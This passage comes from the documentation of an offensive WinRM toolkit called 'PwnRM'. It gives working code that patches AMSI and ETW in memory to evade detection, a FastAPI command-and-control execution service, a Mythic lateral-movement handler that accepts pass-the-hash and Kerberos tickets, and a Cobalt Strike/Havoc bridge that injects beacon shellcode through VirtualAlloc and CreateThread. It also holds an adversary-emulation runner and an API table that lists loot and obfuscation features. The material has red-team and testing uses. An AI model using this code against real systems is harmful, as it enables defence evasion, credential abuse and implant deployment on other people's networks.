Before delivering sensitive payloads, operators can programmatically patch `AmsiScanBuffer` in `amsi.dll` and `EtwEventWrite` in `ntdll.dll` in the remote `wsmprovhost.exe` process context:

```python
from pwnrm.core.runspace import Runspace

def patch_amsi_and_etw(runspace: Runspace):
    patch_script = """
    $kernel32 = Add-Type -MemberDefinition @"
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32.dll")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32.dll")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
"@ -Name "NativeWin32" -Namespace "Win32" -PassThru

    # 1. Patch AMSI (AmsiScanBuffer -> return AMSI_RESULT_CLEAN 0x80070057)
    $amsiDll = $kernel32::LoadLibrary("amsi.dll")
    $asbAddr = $kernel32::GetProcAddress($amsiDll, "AmsiScanBuffer")
    $oldProtect = 0
    [Win32.NativeWin32]::VirtualProtect($asbAddr, [UIntPtr]6, 0x40, [ref]$oldProtect)
    [Runtime.InteropServices.Marshal]::Copy([byte[]](0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3), 0, $asbAddr, 6)
    [Win32.NativeWin32]::VirtualProtect($asbAddr, [UIntPtr]6, $oldProtect, [ref]$oldProtect)

    # 2. Patch ETW (EtwEventWrite -> return 0)
    $ntdll = $kernel32::LoadLibrary("ntdll.dll")
    $eewAddr = $kernel32::GetProcAddress($ntdll, "EtwEventWrite")
    [Win32.NativeWin32]::VirtualProtect($eewAddr, [UIntPtr]1, 0x40, [ref]$oldProtect)
    [Runtime.InteropServices.Marshal]::Copy([byte[]](0xC3), 0, $eewAddr, 1)
    [Win32.NativeWin32]::VirtualProtect($eewAddr, [UIntPtr]1, $oldProtect, [ref]$oldProtect)
    
    Write-Host "[+] AMSI and ETW patched successfully in wsmprovhost.exe"
    """

    for record in runspace.run_command(patch_script):
        if "stdout" in record:
            print(record["stdout"], end="")
```

---

## 5. Enterprise Command & Control (C2) Integration Patterns

PwnRM can be embedded into custom Command & Control (C2) frameworks, web dashboards, microservices, and automated testing engines.



---

### 5.1 Pattern 1: Headless Async WinRM Microservice (FastAPI Backend)

For modern distributed web-based C2 dashboards, PwnRM can run as an asynchronous background execution service providing REST and WebSocket streaming endpoints:

```python
"""
pwnrm_c2_service.py — Headless WinRM Execution Microservice
Requirements: pip install fastapi uvicorn pydantic
"""
import asyncio
from fastapi import FastAPI, HTTPException, WebSocket
from pydantic import BaseModel
from typing import Optional, Dict
from pwnrm.core.credentials import NTCredential
from pwnrm.core.transports import SPNEGOTransport
from pwnrm.core.runspace import Runspace

app = FastAPI(title="PwnRM C2 Execution API", version="2.0.0")

class ConnectRequest(BaseModel):
    host: str
    domain: str
    username: str
    password: Optional[str] = None
    nt_hash: Optional[str] = None
    ssl: bool = False
    port: Optional[int] = None

class ExecuteRequest(BaseModel):
    session_id: str
    command: str

# In-memory active runspace pools
active_sessions: Dict[str, Runspace] = {}

@app.post("/api/v1/sessions/connect")
def connect_target(req: ConnectRequest):
    session_key = f"{req.username}@{req.host}"
    try:
        creds = NTCredential(
            domain=req.domain,
            username=req.username,
            password=req.password or "",
            nt_hash=req.nt_hash or ""
        )
        port = req.port or (5986 if req.ssl else 5985)
        scheme = "https" if req.ssl else "http"
        url = f"{scheme}://{req.host}:{port}/wsman"
        
        transport = SPNEGOTransport(url, creds)
        rs = Runspace(transport, timeout=60)
        rs.__enter__()  # Open RunspacePool
        
        active_sessions[session_key] = rs
        return {"status": "connected", "session_id": session_key, "shell_id": rs.shell_id}
    except Exception as e:
        raise HTTPException(status_code=500, detail=str(e))

@app.post("/api/v1/sessions/exec")
def execute_sync(req: ExecuteRequest):
    rs = active_sessions.get(req.session_id)
    if not rs:
        raise HTTPException(status_code=404, detail="Session not found")
    
    stdout_chunks = []
    error_chunks = []
    
    for rec in rs.run_command(req.command):
        if "stdout" in rec:
            stdout_chunks.append(rec["stdout"])
        if "error" in rec:
            error_chunks.append(rec["error"])
            
    return {
        "session_id": req.session_id,
        "stdout": "".join(stdout_chunks),
        "errors": error_chunks
    }

@app.websocket("/api/v1/sessions/ws-stream")
async def execute_ws_stream(websocket: WebSocket):
    await websocket.accept()
    try:
        data = await websocket.receive_json()
        session_id = data.get("session_id")
        command = data.get("command")
        
        rs = active_sessions.get(session_id)
        if not rs:
            await websocket.send_json({"type": "error", "message": "Session not found"})
            await websocket.close()
            return

        # Stream generator output chunks in real-time
        for rec in rs.run_command(command):
            await websocket.send_json(rec)
            await asyncio.sleep(0.01)
            
        await websocket.send_json({"type": "done"})
    except Exception as e:
        await websocket.send_json({"type": "error", "message": str(e)})
    finally:
        await websocket.close()
```

---

### 5.2 Pattern 2: Mythic C2 Python 3 Agent Adapter

For teams utilizing the [Mythic C2 platform](https://github.com/its-a-feature/Mythic), PwnRM can serve as the core WinRM lateral movement capability inside a Python 3 agent tasking handler:

```python
"""
mythic_pwnrm_tasking.py — Mythic C2 WinRM Lateral Movement Adapter
"""
from typing import Dict, Any
from pwnrm.core.credentials import NTCredential, KrbCredential
from pwnrm.core.transports import SPNEGOTransport, KerberosTransport
from pwnrm.core.runspace import Runspace
from pwnrm.core.tunnel import Socks5Server

class MythicPwnRMTaskHandler:
    def __init__(self):
        self.active_tunnels: Dict[str, Socks5Server] = {}

    def handle_pwnrm_exec(self, task_params: Dict[str, Any], callback_send_output) -> Dict[str, Any]:
        """
        Executes command on target and streams output back to Mythic server via callbacks.
        """
        host = task_params["host"]
        user = task_params["username"]
        domain = task_params.get("domain", "")
        auth_type = task_params.get("auth_type", "ntlm")  # ntlm | pth | kerberos
        secret = task_params["secret"]  # password | nt_hash | ccache_bytes
        command = task_params["command"]

        # 1. Resolve Transport
        if auth_type == "pth":
            creds = NTCredential(domain=domain, username=user, nt_hash=secret)
            transport = SPNEGOTransport(f"http://{host}:5985/wsman", creds)
        elif auth_type == "kerberos":
            # Secret contains raw ccache bytes; parse ticket
            from pwnrm.core.utils import parse_ccache_bytes
            ticket, tgskey = parse_ccache_bytes(secret)
            creds = KrbCredential(domain=domain, username=user, ticket=ticket, tgskey=tgskey)
            transport = KerberosTransport(f"http://{host}:5985/wsman", creds)
        else:
            creds = NTCredential(domain=domain, username=user, password=secret)
            transport = SPNEGOTransport(f"http://{host}:5985/wsman", creds)

        # 2. Execute within Runspace and stream output to Mythic
        total_stdout = []
        with Runspace(transport, timeout=60) as rs:
            callback_send_output(f"[*] Runspace pool opened (ShellID: {rs.shell_id})\n")
            for record in rs.run_command(command):
                if "stdout" in record:
                    callback_send_output(record["stdout"])
                    total_stdout.append(record["stdout"])
                elif "error" in record:
                    callback_send_output(f"[!] Error: {record['error']}\n")

        return {"status": "success", "output": "".join(total_stdout)}

    def handle_start_socks(self, port: int) -> str:
        socks = Socks5Server(bind_host="0.0.0.0", bind_port=port)
        socks.start()
        self.active_tunnels[str(port)] = socks
        return f"[+] SOCKS5 Proxy bound to port {port}"
```

---

### 5.3 Pattern 3: Cobalt Strike & Havoc External C2 Lateral Pivot Bridge

This bridge allows Cobalt Strike or Havoc operators to spawn SMB or TCP beacons on isolated targets using WinRM as an agentless staging mechanism:

```python
"""
cs_external_c2_pwnrm.py — Lateral Stage Injector for Havoc & Cobalt Strike
"""
from pwnrm.core.credentials import NTCredential
from pwnrm.core.transports import SPNEGOTransport
from pwnrm.core.runspace import Runspace
from pwnrm.shell.commands import b64str

def stage_beacon_over_pwnrm(target_host: str, admin_hash: str, beacon_shellcode: bytes):
    """
    Delivers and executes raw shellcode on target without creating temporary files on disk.
    Uses in-memory VirtualAlloc + CreateThread execution via reflection.
    """
    creds = NTCredential(domain="CORP", username="Administrator", nt_hash=admin_hash)
    transport = SPNEGOTransport(f"http://{target_host}:5985/wsman", creds)
    
    sc_b64 = b64str(beacon_shellcode)
    
    ps_injector = f"""
    $kernel32 = Add-Type -MemberDefinition @"
    [DllImport("kernel32.dll")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@ -Name "Win32Mem" -Namespace "Win32" -PassThru

    $scBytes = [Convert]::FromBase64String('{sc_b64}')
    $addr = $kernel32::VirtualAlloc([IntPtr]::Zero, [uint32]$scBytes.Length, 0x3000, 0x40)
    [Runtime.InteropServices.Marshal]::Copy($scBytes, 0, $addr, $scBytes.Length)
    $hThread = $kernel32::CreateThread([IntPtr]::Zero, 0, $addr, [IntPtr]::Zero, 0, [IntPtr]::Zero)
    Write-Host "[+] Shellcode thread spawned with handle: $hThread"
    """

    with Runspace(transport) as rs:
        for record in rs.run_command(ps_injector):
            if "stdout" in record:
                print(record["stdout"], end="")
```

---

### 5.4 Pattern 4: Automated Adversary Emulation (CALDERA / Atomic Red Team Runner)

Security operations teams can leverage PwnRM to automate validation of enterprise detection controls across multiple domain machines:

```python
"""
adversary_emulation_runner.py — Automated MITRE ATT&CK TTP Execution Pipeline
"""
import yaml
from pathlib import Path
from pwnrm.core.session_mgr import SessionManager
from pwnrm.core.transports import SPNEGOTransport
from pwnrm.core.credentials import NTCredential
from pwnrm.core.runspace import Runspace

class EmulationRunner:
    def __init__(self, targets: list[dict]):
        self.session_mgr = SessionManager()
        self._init_targets(targets)

    def _init_targets(self, targets: list[dict]):
        for t in targets:
            creds = NTCredential(domain=t["domain"], username=t["user"], password=t["password"])
            transport = SPNEGOTransport(f"http://{t['host']}:5985/wsman", creds)
            rs = Runspace(transport)
            rs.__enter__()
            self.session_mgr.register_session(rs, transport, t, name=t["name"])
            print(f"[+] Connected to test node: {t['name']} ({t['host']})")

    def run_atomic_test(self, test_name: str, ps_command: str):
        print(f"\n[*] Executing Atomic Test: [{test_name}] across {len(self.session_mgr.sessions)} nodes...")
        results = self.session_mgr.fan_out_exec(ps_command)
        for sid, out in results.items():
            node = self.session_mgr.sessions[sid]
            print(f"\n--- Node: {node.name} ({node.host}) ---")
            print(out.strip())

    def close(self):
        for sid in list(self.session_mgr.sessions.keys()):
            self.session_mgr.close_session(sid)

# Example Usage
if __name__ == "__main__":
    test_hosts = [
        {"name": "WS-01", "host": "192.168.1.101", "domain": "CORP", "user": "Admin", "password": "Password123!"},
        {"name": "WS-02", "host": "192.168.1.102", "domain": "CORP", "user": "Admin", "password": "Password123!"},
    ]
    runner = EmulationRunner(test_hosts)
    
    # T1059.001 - PowerShell Command Execution
    runner.run_atomic_test("T1059.001", "Get-Process | Select-Object -First 3")
    
    # T1087.002 - Domain Account Discovery
    runner.run_atomic_test("T1087.002", "net user /domain")
    
    runner.close()
```

---

## 6. Error Handling, Concurrency & Security Hardening

### 6.1 Exception Hierarchy & Diagnostic Troubleshooting

```python
from pwnrm.core.credentials import TransportError

try:
    with Runspace(transport) as rs:
        for rec in rs.run_command("whoami"):
            print(rec)
except TransportError as e:
    # Handles: HTTP 401 Unauthorized, SSRF Redirect Blocks, Decryption Desync, TLS Handshake Failures
    print(f"[-] Transport layer failure: {e}")
except ConnectionRefusedError:
    # Target port 5985/5986 is closed or filtered by Windows Defender Firewall
    print("[-] Port 5985/5986 unreachable.")
except TimeoutError:
    # Target dropped request or exceeded configured timeout
    print("[-] Request timed out.")
except Exception as e:
    print(f"[-] Unexpected error: {e}")
```

#### Diagnostic Resolution Matrix:

| Error Output / Exception | Root Cause | Remediation |
|---|---|---|
| `TransportError: Unexpected HTTP 401` | Invalid credentials, account locked, or NTLM disabled by GPO. | Verify credentials; test Kerberos (`-k`) or CredSSP (`--credssp`). |
| `TransportError: Server issued HTTP redirect` | SSRF / reflection attempt detected by transport layer. | Confirm target hostname is not pointing to an HTTP proxy or rogue redirector. |
| `TransportError: Transport decryption failure` | Stateful stream cipher desynchronization on wire exception. | Close broken session and re-instantiate `Runspace`. |
| `pypsrp.exceptions.WSManFault: Access is denied` | User is not in `Remote Management Users` or `Administrators`. | Check target user group memberships and WinRM SDDL permissions. |
| `ConnectionRefusedError: [Errno 111]` | WinRM service (`WinRM`) stopped or firewall blocking 5985/5986. | Enable WinRM on target (`Enable-PSRemoting -Force`). |

---

### 6.2 Concurrency & Thread-Safety Considerations

- **Transport Sessions**: Each `Transport` instance maintains an isolated `requests.Session`. Transports should not be shared across concurrent threads executing simultaneous commands.
- **Runspace Instances**: Each `Runspace` represents a stateful `RunspacePool`. Simultaneous commands on the same `Runspace` must be synchronized sequentially; for parallel multi-host operations, instantiate independent `Runspace` instances within the `SessionManager`.
- **Tunneling**: `Socks5Server` and `PortForwarder` spawn dedicated daemon worker threads per client connection using non-blocking socket multiplexing via `select.select()`.

---

### 6.3 State Persistence, Recovery & Permission Hardening

All session state files (`sessions.json`), credentials (`credentials.json`), and extracted artifacts are stored inside `~/.pwnrm/` (configurable via `PWNRM_DIR`).

```python
# Permission Hardening Enforcement (Executed automatically by SessionManager & LootManager):
# 1. POSIX systems: chmod 0o700 for directories, 0o600 for credential/state files.
# 2. Windows systems: icacls /inheritance:r /grant "%USERNAME%:(OI)(CI)F"
```

---

### 6.4 API Quick Reference Table

| Module / Component | Class / Method | Signature | Returns | Description |
|---|---|---|---|---|
| `core.api` | `create_transport` | `(args) -> Transport` | `Transport` | Factory resolving credentials and instantiating correct transport. |
| `core.api` | `argument_parser` | `() -> ArgumentParser` | `ArgumentParser` | Returns pre-configured CLI argument parser. |
| `core.credentials` | `NTCredential` | `(domain, user, password, nt_hash)` | `NTCredential` | Encapsulates NTLM plaintext or Pass-the-Hash credentials. |
| `core.credentials` | `KrbCredential` | `(domain, user, ticket, tgskey, pass)` | `KrbCredential` | Encapsulates Kerberos ticket and session keys. |
| `core.runspace` | `Runspace` | `(transport, timeout=30)` | `Runspace` | Context manager managing MS-PSRP RunspacePool lifecycle. |
| `core.runspace` | `run_command` | `(cmd: str) -> Generator` | `Generator[dict]` | Streams real-time dictionary records (`stdout`, `error`, etc.). |
| `core.session_mgr` | `SessionManager` | `(base_dir=None)` | `SessionManager` | Manages multi-target session pools and persistence. |
| `core.session_mgr` | `fan_out_exec` | `(cmd: str) -> Dict[int, str]` | `Dict[int, str]` | Executes command sequentially across all active sessions. |
| `core.tunnel` | `Socks5Server` | `(bind_host, bind_port)` | `Socks5Server` | In-band RFC 1928 SOCKS5 proxy server. |
| `core.tunnel` | `PortForwarder` | `()` | `PortForwarder` | Local and remote TCP port forwarder. |
| `core.opsec` | `OPSECProfile` | `(mode="balanced")` | `OPSECProfile` | Configures traffic jitter, user-agents, and command obfuscation. |
| `core.loot` | `LootManager` | `(base_dir=None)` | `LootManager` | Structured target loot storage with ACL hardening. |
| `modules` | `ModuleManager` | `()` | `ModuleManager` | Plugin discovery and registration subsystem. |
| `modules` | `BaseModule` | `()` | `BaseModule` | Base class for custom offensive/defensive modules. |
